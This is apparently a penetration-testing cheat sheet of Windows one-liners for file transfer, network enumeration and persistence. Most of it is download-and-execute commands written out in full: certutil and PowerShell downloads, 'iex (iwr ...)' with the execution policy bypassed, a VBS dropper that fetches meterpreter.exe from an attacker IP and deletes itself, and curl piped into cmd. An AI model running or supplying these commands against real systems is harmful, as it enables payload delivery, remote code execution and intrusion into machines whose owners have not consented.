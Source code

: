# File Transfer     
[Reference - 15 ways to download files](https://www.netspi.com/blog/technical/network-penetration-testing/15-ways-to-download-a-file/)     
[Windows oneliners to download remote payload and execute arbitrary code](https://arno0x0x.wordpress.com/2017/11/20/windows-oneliners-to-download-remote-payload-and-execute-arbitrary-code/)   
[Windows One liners for file uploading](https://www.asafety.fr/en/vuln-exploit-poc/windows-dos-powershell-upload-de-fichier-en-ligne-de-commande-one-liner/)     

**try certutil first - sometimes Powershell has problems, check size of file to see if transfer was successful** 

    certutil.exe -urlcache -split -f "http://$IP/file.bat" file.bat    
    
## Powershell
    powershell -c wget "http://$IP/file.exe" -outfile "file.exe"   
    powershell "(New-Object System.Net.WebClient).DownloadFile('$IP','$PORT')"   
    powershell Invoke-WebRequest -Uri http://$IP:$PORT/PowerUp.ps1 -OutFile C:\Windows\Temp\out  
    powershell -ep bypass iex (iwr http://$IP/shell.ps1 -useb) 
    
    IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')

## VBS 
    echo Set o=CreateObject^("MSXML2.XMLHTTP"^):Set a=CreateObject^("ADODB.Stream"^):Set f=Createobject^("Scripting.FileSystemObject"^):o.open "GET", "http://<attacker ip>/meterpreter.exe", 0:o.send^(^):If o.Status=200 Then > "C:\temp\download.vbs" &echo a.Open:a.Type=1:a.Write o.ResponseBody:a.Position=0:If f.Fileexists^("C:\temp\meterpreter.exe"^) Then f.DeleteFile "C:\temp\meterpreter.exe" >> "C:\temp\download.vbs" &echo a.SaveToFile "C:\temp\meterpreter.exe" >>"C:\temp\download.vbs" &echo End if >>"C:\temp\download.vbs" &cscript //B "C:\temp\download.vbs" &del /F /Q "C:\temp\download.vbs"

## XM File Creation (Using copy and paste)
    PS C:\> $console = [XML] @"
    <XML CODE CODE HERE>
    "@
    /# write the xml to file:
    PS C:\> $console.save("C:\users\burmat\documents\console.xml") 
    
 ## Windows 10 - curl
    curl http://server/file -o file
    curl http://server/file.bat | cmd
 ____   

 ## Network Scanning / Enum 
 [Static Windows binaries](https://github.com/andrew-d/static-binaries/tree/master/binaries/windows) 
 
    for /L %i in (1,1,255) do @ping -n 1 -w 200 192.168.1.%i > nul && echo 192.168.1.%i is up.     
    route print 
    arp -a  
    C:\Windows\System32\drivers\etc\host        Windows DNS entries  
 ____
 # Persistence 
 Methods: registry keys, startup folders, scheduled tasks, WMI permanent events.
 